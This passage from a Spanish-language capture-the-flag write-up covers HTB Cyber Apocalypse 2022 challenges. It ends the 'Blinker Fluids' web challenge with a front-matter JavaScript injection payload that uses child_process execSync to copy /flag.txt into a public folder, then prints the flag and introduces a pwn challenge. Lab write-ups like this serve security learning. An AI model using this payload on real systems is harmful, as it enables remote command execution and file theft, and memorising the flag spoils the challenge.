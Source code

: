 ```
---js\n((require(\"child_process\"))execSync(\"cp /flag.txt /static/invoices/flag.txt\"))\n---RCE
```

![Request enviada](images/web/blinker_fluids/request.png)

Ejecutando así el payload y permitiendo navegar a donde se encuentra la bandera

![Bandera](images/web/blinker_fluids/flag.png)

>Flag: HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}

### Pwn

#### Space Pirate: Entrypoint

##### Stats

| Attribute | Info |
|---|---|
| Difficulty | easy |
| Description | D12 is one of Golden Fang's missile launcher spaceships. Our mission as space pirates is to highjack D12, get inside the control panel room, and access the missile launcher system. To achieve our goal, we split the mission into three parts. In this part, all we need to do is bypass the scanning system and open the gates so that we proceed further.   |
| File | [pwn_sp_entrypoint.zip](https://github.com/srrequiem/CTF-Challenge-Compilation/raw/main/202205_htb_cyber_apocalypse_ctf_2022_intergalactic_chase/files/pwn_sp_entrypoint.zip) |
